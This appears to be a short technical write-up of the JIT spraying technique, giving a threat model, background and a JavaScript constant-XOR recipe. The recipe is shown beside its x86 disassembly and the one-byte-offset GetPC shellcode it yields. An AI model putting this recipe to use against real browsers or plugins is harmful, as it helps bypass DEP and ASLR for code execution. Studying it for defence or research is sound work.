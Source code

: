 ### Attack Summary

***JIT Spraying:*** Using constants to hold "hidden" instructions, ensuring that they are JITed as machine code then disrupting the execution flow by one byte (memory leak) to execute those instructions.

### Attacker Threat Model

The attacker has access to the VM of a dynamically typed language ((ECMA|Java|Action)Script, Java, Python, etc.) can write a script and execute it. DEP and ASLR memory protection are in action. The return address from a vulnerable function can be changed to give control to code in the JITed pages. The memory with the JITed code is *executable*.

### Background

JIT is predictable and must copy some constants to the executable page. Given a uniform statement such as a long sum or repeating pattern, those constants can encode small instructions and then control flow to the next constant location.

### Recipe

```javascript
var y = (0x3c54d0d9 ^ 0x3c909058 ^ 0x3c59f46a ^ 0x3c90c801 ^ ...);
```

is compiled to 

```javascript
03470069 B8 D9D0543C     MOV EAX,3C54D0D9
0347006E 35 5890903C     XOR EAX,3C909058
03470073 35 6AF4593C     XOR EAX,3C59F46A
03470078 35 01C8903C     XOR EAX,3C90C801
0347007D 35 D930903C     XOR EAX,3C9030D9
03470082 35 5B53533C     XOR EAX,3C53535B
```

which if execution begins at `0x0347006A` will become the `GetPC()` method:

```javascript
0347006A  D9 D0          FNOP
0347006C  54             PUSH ESP
0347006D  3C 35          CMP AL,35
0347006F  58             POP EAX
03470070  90             NOP
03470071  90             NOP
03470072  3C 35          CMP AL,35
03470074  6A F4          PUSH -0C
03470076  59             POP ECX
03470077  3C 35          CMP AL,35
03470079  01 C8          ADD EAX,ECX
0347007B  90             NOP
0347007C  3C 35          CMP AL,35
0347007E  D9 30          FSTENV DS:[EAX]  
```

The attacker needs to find the JITed shellcode in memory and disrupt the execution flow to point to it.

### Tools and Setup

For a specific ActionScript compiler `as3compiler.exe` here, the author creates two specific SWF files. 

